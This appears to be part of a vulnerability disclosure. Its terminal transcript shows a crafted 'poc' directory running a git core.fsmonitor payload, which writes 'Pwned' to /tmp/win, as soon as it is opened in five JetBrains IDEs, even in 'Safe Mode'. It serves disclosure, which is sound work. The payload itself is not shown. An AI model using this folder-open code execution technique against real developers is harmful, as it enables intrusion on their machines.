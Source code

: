 Run each of the JetBrains IDEs against the `poc` directory and observe that the `core.fsmonitor` payload executes for each one. Furthermore, note that choosing to open the directory in "Safe" or "Preview" mode (where applicable) has no bearing on the execution of the payload.

```plain
% cat /tmp/win
cat: /tmp/win: No such file or directory

% idea poc

[... IDEA starts as an X application ...]
[... IDEA pauses during startup and asks "Trust and open Gradle Project?" ...]
[... Choose "Preview in Safe Mode" ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% pycharm poc

[... PyCharm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% webstorm poc

[... WebStorm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% phpstorm poc

[... PhpStorm opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)

% rm /tmp/win

% cat /tmp/win
cat: /tmp/win: No such file or directory

% rider poc

[... Rider opens as an X application ...]

% cat /tmp/win
Pwned as uid=31337(justin) gid=31337(justin) groups=31337(justin),27(sudo),44(video)
```